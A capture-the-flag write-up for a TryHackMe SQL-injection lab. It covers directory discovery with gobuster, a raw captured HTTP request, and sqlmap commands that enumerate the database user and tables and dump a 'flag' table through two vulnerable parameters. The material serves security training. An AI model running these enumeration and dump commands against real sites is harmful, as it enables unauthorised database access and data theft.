# sqlmap

{% embed url="https://tryhackme.com/room/sqlmap" %}

Upon visiting the webpage, I was greeted with a plain page without any useful external links or information.

### Finding the first directory

I used `gobuster` with a common word list from [Daniel Miessler's list](https://github.com/danielmiessler/SecLists):

```bash
$ gobuster dir -u http://<target>.com/ -w DanielMiesslerSecLists/Discovery/Web-Content/common.txt
```

But did not receive any positive results. From the description of the challenge, it appears that this application relates  to "_Blood Donations_". Thus, I tried the directory `/blood`, and it worked.

### SQL Injection with `sqlmap`

Navigating through the application while behind Burp suite proxy, I found 2 requests within the application that are potentially vulnerable to an SQL injection attack. This is due to the nature of the request being likely to return a value retrieved directly from the database.

1. **`POST /blood/nl-search.php`**

```http
POST /blood/nl-search.php HTTP/1.1
Host: 10.10.244.206
Content-Length: 16
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.244.206
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.244.206/blood/
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=pdgklb30hibf0kp13ldkn888l0
Connection: keep-alive

blood_group=A%2B
```

```
$ sqlmap -r req.txt -p blood_group --current-user
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

```bash
$ sqlmap -r req.txt -p blood_group -D blood --tables
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

```bash
$ sqlmap -r req.txt -p blood_group -D blood -T flag --dump
```



<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>



2. `GET blood/view.php?id=1`&#x20;

The outputs are the same for each options as the ones above respectively.&#x20;

```bash
$ sqlmap http://10.10.181.14/blood/view.php?id=1 --current-user
```

```bash
$ sqlmap http://10.10.181.14/blood/view.php?id=1 -D blood --tables
```

```bash
$ sqlmap http://10.10.181.14/blood/view.php?id=1 -D blood -T flag --dump
```
